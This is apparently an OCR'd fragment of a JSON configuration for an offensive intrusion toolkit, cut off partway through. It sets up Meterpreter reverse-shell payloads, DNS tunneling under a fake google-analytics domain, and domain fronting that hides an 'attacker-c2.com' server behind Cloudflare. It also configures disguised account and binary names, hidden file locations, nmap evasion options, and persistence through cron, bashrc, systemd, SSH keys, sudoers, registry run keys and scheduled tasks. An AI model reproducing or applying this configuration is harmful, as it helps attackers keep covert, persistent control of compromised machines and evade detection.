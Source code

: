 ```json
  "c2_config": {
    "meterpreter": {
      "enabled": true,
      "payload_type": "linux/x64/meterpreter/reverse_tcp",
      "windows_payload": "windows/x64/meterpreter/reverse_tcp",
      "encryption": true,
      "stager_retry_count": 3,
      "stager_retry_wait": 5
    },
    "dns_tunneling": {
      "enabled": true,
      "domain": "cdn.google-analytics.com",
      "subdomain": "analytics",
      "dns_server": "8.8.8.8"
    },
    "domain_fronting": {
      "enabled": true,
      "front_domain": "cloudflare.com",
      "real_domain": "attacker-c2.com",
      "cdn_provider": "cloudflare"
    },
    "jitter": {
      "enabled": true,
      "min_interval": 30,
      "max_interval": 300,
      "random_factor": 0.3
    }
  },
  "stealth": {
    "obfuscated_names": {
      "linux_user": "systemd-resolver",
      "windows_user": "udisks-helper",
      "service_name": "gdm-session",
      "binary_name": "rsync",
      "script_name": "update.sh"
    },
    "hidden_directories": [
      "/tmp/.X11-unix/",
      "/var/lib/dbus/",
      "/usr/share/doc/",
      "/opt/.cache/",
      "C:\\Windows\\Temp\\",
      "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\"
    ],
    "scan_evasion": {
      "nmap_options": "-sS -T2 --scan-delay 1-3 --randomize-hosts",
      "decoy_ips": "RND:10",
      "fragment_packets": true,
      "spoof_mac": true
    }
  },
  "persistence": {
    "linux": {
      "cron_jobs": true,
      "bashrc_modification": true,
      "profile_modification": true,
      "systemd_service": true,
      "ssh_keys": true,
      "sudoers_modification": true
    },
    "windows": {
      "registry_run": true,
      "scheduled_tasks": true,
```